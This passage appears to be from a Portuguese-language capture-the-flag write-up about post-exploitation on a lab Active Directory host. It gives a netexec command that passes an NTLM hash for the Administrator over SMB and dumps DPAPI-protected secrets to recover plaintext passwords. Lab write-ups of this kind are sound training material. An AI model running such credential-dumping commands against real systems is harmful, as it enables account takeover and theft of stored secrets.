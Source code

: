 ![](attachment/78bad1d0dc78cf3bf38fd2064e94185d.png)

![](attachment/793dd4524c17681564d82b51139e2824.png)

# 4. Extra

## 4.1 Tentativa de obter senha do "Administrator"
Para ir além da pós exploração a fim de obter mais informações a fim de compromete-la inteiramente. podermos tentar obter a senha do administrator em texto simples.

`netexec smb K2Server.k2.thm -u administrator -H '9545b61858c043477c350ae86c37b32f' --dpapi

---